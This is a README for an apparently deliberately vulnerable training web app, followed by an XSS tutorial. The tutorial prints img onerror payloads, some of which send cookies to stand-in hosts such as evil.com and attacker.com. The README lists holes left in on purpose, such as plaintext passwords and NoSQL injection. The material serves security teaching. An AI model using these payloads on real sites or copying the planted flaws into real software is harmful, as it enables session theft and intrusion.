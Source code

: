 # VULN-STACK

## Application Overview

`Vuln-Stack` is a deliberately vulnerable full-stack web application designed for educational and testing purposes. It demonstrates common web security flaws, including Cross-Site Scripting (XSS), insecure authentication, and improper input validation. The stack typically includes a React frontend, Node.js/Express backend, and a MongoDB database.

## Features

- **User Authentication:** Simple login and registration forms with intentionally weak validation.
- **Profile Management:** Users can update profile information, exposing potential injection points.
- **Message Board:** Public posting feature vulnerable to XSS and CSRF attacks.
- **API Endpoints:** RESTful routes for user and message management, lacking proper authorization checks.

## Architecture

- **Frontend:** React application with routing and state management. User input is rendered directly into the DOM in several places.
- **Backend:** Express server handling authentication, data storage, and API requests. Input is often processed without sanitization.
- **Database:** MongoDB stores user and message data. Queries are constructed without parameterization, exposing NoSQL injection risks.

## Known Vulnerabilities

1. **Cross-Site Scripting (XSS):**
    - User input is rendered without escaping.
    - Use of `dangerouslySetInnerHTML` in React components.
2. **Cross-Site Request Forgery (CSRF):**
    - No CSRF tokens implemented for state-changing requests.
3. **Broken Authentication:**
    - Passwords stored in plaintext.
    - Sessions managed with insecure cookies.
4. **NoSQL Injection:**
    - User input directly used in MongoDB queries.
5. **Sensitive Data Exposure:**
    - No HTTPS enforced.
    - JWT secrets and database credentials hardcoded.

## Setup Instructions

1. **Clone the Repository:**
    ```bash
    git clone https://github.com/your-org/vuln-stack-app.git
    cd vuln-stack-app
    ```
2. **Install Dependencies:**
    ```bash
    npm install
    cd client && npm install
    ```
3. **Configure Environment:**
    - Edit `.env` files for backend and frontend.
    - Set MongoDB URI and JWT secret.
4. **Run the Application:**
    ```bash
    npm run dev
    cd client && npm start
    ```

## Usage

- Register a new user and log in.
- Post messages to the board.
- Edit your profile and observe how input is handled.
- Experiment with attack payloads to understand vulnerabilities.

## Security Recommendations

- Sanitize and validate all user input.
- Use HTTPS for all communications.
- Store passwords securely (hashing and salting).
- Implement CSRF protection.
- Avoid exposing sensitive configuration in source code.
- Use parameterized queries for database access.

## Disclaimer

This application is intentionally insecure and should only be used in isolated, non-production environments for learning and testing purposes.



# FOCUS-ON: XSS Attack Vector: URL Parameter Injection

## Overview
This document explains how attackers can exploit URL parameters to inject malicious code through image tags, using the example from our vulnerable React application.

## Vulnerable Code Example
```javascript
<a href="https://my-bank.example.com/welcome?user=<img src=x onerror=alert('hello!')>"></a>
```

## How the Attack Works

1. **Initial Vulnerable Link**
   - The application accepts unvalidated user input in URL parameters
   - Parameters are rendered directly into the HTML without proper encoding

2. **Attack Payload**
   - Attacker injects HTML/JavaScript through the URL parameter
   - The malicious `<img>` tag is inserted with an invalid source
   - When the image fails to load, the `onerror` event triggers
   - Malicious JavaScript executes in the victim's browser context

3. **Common Attack Variations**
   ```html
   // Basic XSS
   <img src="x" onerror="alert(document.cookie)">
   
   // Data theft
   <img src="x" onerror="fetch('https://evil.com/steal?c='+document.cookie)">
   
   // Session hijacking
   <img src="x" onerror="new Image().src='http://attacker.com/'+document.cookie">
   ```

## Prevention Methods

### 1. URL Parameter Encoding
```javascript
<a href={`https://my-bank.example.com/welcome?user=${encodeURIComponent(username)}`}>
  Welcome
</a>
```

### 2. Content Security Policy
```javascript
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; img-src 'self' https:; script-src 'self'"
  );
  next();
});
```

### 3. Input Validation
```javascript
const validateInput = (input) => {
  return input.replace(/[<>]/g, '');
};
```

## Security Best Practices

1. Never trust user input
2. Always encode/escape output
3. Implement CSP headers
4. Use React's built-in XSS protections
5. Avoid using `dangerouslySetInnerHTML`
6. Validate input on both client and server side
7. Use secure cookie attributes (HttpOnly, Secure, SameSite)

## Impact of Successful Attacks
- Cookie theft
- Session hijacking
- Data exfiltration
- Malicious redirects
- Client-side malware injection

## Testing Tools
- Browser Developer Tools
- OWASP ZAP
- Burp Suite
- XSS Hunter

## Additional Resources
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [React Security Documentation](https://reactjs.org/docs/dom-elements.html#security-concerns)
- [Content Security Policy Reference](https://content-security-policy.com/)

## Note
This documentation is for educational purposes only. The vulnerable code examples should never be used in production environments.